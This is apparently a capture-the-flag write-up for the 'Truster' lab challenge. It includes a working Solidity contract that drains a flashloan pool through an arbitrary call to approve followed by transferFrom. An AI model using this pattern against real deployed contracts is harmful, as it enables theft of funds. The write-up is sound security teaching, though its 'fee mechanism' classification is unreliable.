

# Truster

## Challenge

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## Solution

I passed token address as the target address and the approve function for the arbitrary function call,after which I used the transferFrom function to send the tokens to the recovery account.

```
contract Attacker {
    uint256 constant TOKENS_IN_POOL = 1_000_000e18;

    constructor(TrusterLenderPool pool,address _token,address recovery){
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),TOKENS_IN_POOL);
        pool.flashLoan(0,address(this), _token,data);
        DamnValuableToken token = DamnValuableToken(_token);
        token.transferFrom(address(pool),recovery,TOKENS_IN_POOL);
    }
}
```



## Attack Classification

### Economic Exploit
The attack exploits the fee mechanism to drain funds economically by making an arbitrary call.

### DoS (Denial of Service)
Draining the pool,denies other users who might want to access the flashloan from getting any tokens.

### Access Control Misconfiguration
The root cause of the vulnerability lies in poor access control: the pool delegates sensitive operations (arbitrary function calls) to untrusted borrowers.

